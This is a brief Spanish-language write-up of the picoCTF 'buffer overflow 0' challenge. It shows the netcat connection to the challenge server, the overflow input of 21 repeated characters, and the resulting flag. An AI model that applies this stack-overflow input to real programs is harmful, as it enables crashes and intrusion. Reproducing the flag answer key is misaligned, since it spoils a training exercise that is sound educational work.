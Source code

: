 # buffer overflow 0

## Objetivo.

Smash the stackLet's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/173/vuln). You can view source [here](https://artifacts.picoctf.net/c/173/vuln.c). And connect with it using:`nc saturn.picoctf.net 51532`

## Solución.

**Conectarse a nc saturn.picoctf.net 51532** 

**En input meter 21 , 1's**

```
frausto_san-picoctf@webshell:~/picoctf/binaryexplotation$ nc saturn.picoctf.net 51532
Input: 111111111111111111111
picoCTF{ov3rfl0ws_ar3nt_that_bad_90d2bb58}
```

**Bandera** picoCTF{ov3rfl0ws_ar3nt_that_bad_90d2bb58}

## Notas opcionales.

## Referencias.

Vídeo

https://www.youtube.com/watch?v=4EBqN0X8kEw&ab_channel=number0x01